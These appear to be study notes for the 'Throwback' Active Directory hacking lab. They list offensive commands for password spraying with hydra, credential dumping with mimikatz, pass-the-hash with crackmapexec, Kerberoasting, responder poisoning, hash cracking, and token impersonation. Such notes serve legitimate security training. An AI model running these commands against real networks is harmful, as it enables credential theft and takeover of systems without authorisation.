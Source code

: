 throwback

Cost: $60/month
Hours: 18-60 hours research/study

```
# Powershell

Get-NetDomain
Get-NetDomainController    
Get-NetForest    
Get-NetDomainTrust

```
# Password Spraying
hydra
(Web Application Example) hydra -L users.txt -p <password> MACHINE_IP http-post-form /src/redirect.php:<user_parameter>=^USER^&<pass_parameter>=^PASS^:F=incorrect' -v

```
# Payload Creation, Staged/Stageless Payloads
msfvenom -l payloads    

Stageless payloads by design are larger because they contain everything required to land a reverse shell back on your box in a nice and neat style.
Staged payloads are only part of the designation needed to spawn a shell. The staged aspect of the payload can assist with AV evasion and size reduction. 

```
# LLMNR/NBT-NS Poisoning
responder

# Cracking Hashes
hashcat -m 5600 hash.txt rockyou.txt -r rules/OneRuleToRuleThemAll.rule --debug-mode=1 --debug-file=matched.rule

```
#C2
Empire
https://github.com/BC-SECURITY/Empire.git

Starkiller
https://github.com/BC-SECURITY/Starkiller/releases 

mimikatz
# LSA (Local Security Authority) also handles credentials used by the system, from everything to basic password changes to creation of access tokens
(mimikatz example command) lsadump::lsa /patch 
sekurlsa::tickets /export
lsadump::lsa /patch
# SAM (Security Account Manager) holds a copy of all the user's passwords which makes it a valuable file for us to dump. 
lsadump::sam
# Attacking lsass through Mimikatz is with the sekurlsa module. It will attempt to retrieve the credentials/hashes of currently logged in users. 
sekurlsa::logonPasswords

seatbelt
```
# Proxychains
(In Metasploit) use auxiliary/server/socks4a
(Change socks port) sudo vi /etc/proxychains.conf
proxychains command

```
# Pass the Hash

crackmapexec (can pass hash to auth as victim)
crackmapexec smb <IP>/24 -u <user> -d <domain> -H <hash>

evil-winrm (to pass hash to auth as victim)

```
# Bloodhound

Install Bloodhound: https://github.com/BloodHoundAD/

(Migrate Invoker to Victim) Invoke Sharphound Ingestor
https://github.com/BloodHoundAD/SharpHound3
powershell -ep bypass
Import-Module .\Sharphound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain THROWBACK.local -ZipFileName loot.zip 

(Migrate Zip Back to Attack Machine, Drag/Drop in Bloodhound)

```
# Kerberoasting
Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. To enumerate Kerberoastable accounts use BloodHound to find all Kerberoastable accounts.

Impacket: https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19

proxychains sudo python3 GetUserSPNs.py -dc-ip <IP> domain/user:password -request    

```
# mshta.exe 
mshta.exe is a built-in executable on Windows devices that’s used to aid in script execution with HTML applications. This permits a attacker to execute the file on the remote server and return a shell. 


```
# Intel, check commits:

https://api.github.com/users/USERGOESHERE/events/public  

# Email -> Linkedin Coor
git clone https://github.com/Sq00ky/LeetLinked
  

```````
# Meterpreter Session Token Impersonation

use incognito
list_tokens -u 
















